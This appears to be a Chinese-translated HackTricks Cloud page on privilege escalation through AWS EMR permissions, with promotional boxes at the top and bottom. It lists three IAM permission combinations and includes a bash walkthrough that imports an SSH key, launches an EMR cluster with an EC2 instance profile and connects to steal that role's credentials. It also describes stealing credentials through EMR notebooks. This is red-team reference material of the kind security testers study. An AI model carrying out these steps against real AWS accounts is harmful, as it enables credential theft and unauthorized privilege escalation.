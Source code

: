 # AWS - EMR权限提升

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## EMR

有关EMR的更多**信息**，请查看：

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

拥有这些权限的攻击者可以**运行新的EMR集群并附加EC2角色**，尝试窃取其凭证。\
请注意，为了做到这一点，您需要**了解在帐户中导入的某个ssh私钥**，或者导入一个，并且能够**在主节点中打开端口22**（您可以使用`--ec2-attributes`中的`EmrManagedMasterSecurityGroup`和/或`ServiceAccessSecurityGroup`属性来实现这一点）。
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
注意在`--service-role`中指定了**EMR角色**，在`InstanceProfile`内部的`--ec2-attributes`中指定了**ec2角色**。然而，这种技术只允许窃取EC2角色凭证（因为您将通过ssh连接），而不是EMR IAM角色。

**潜在影响：** 特权升级到指定的EC2服务角色。

### `elasticmapreduce:CreateEditor`、`iam:ListRoles`、`elasticmapreduce:ListClusters`、`iam:PassRole`、`elasticmapreduce:DescribeEditor`、`elasticmapreduce:OpenEditorInConsole`

具有这些权限，攻击者可以进入**AWS控制台**，创建一个笔记本并访问它以窃取IAM角色。

{% hint style="danger" %}
即使您将IAM角色附加到笔记本实例，在我的测试中，我注意到我能够窃取AWS托管凭证，而不是与IAM角色相关的凭证。
{% endhint %}

**潜在影响：** 特权升级到AWS托管角色arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

仅具有此权限，攻击者将能够访问**Jupyter Notebook并窃取**与其关联的IAM角色。\
笔记本的URL为`https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
即使您将IAM角色附加到笔记本实例，在我的测试中，我注意到我能够窃取AWS托管凭证，而不是与IAM角色相关的凭证。
{% endhint %}

**潜在影响：** 特权升级到AWS托管角色arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**上关注**我们。
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
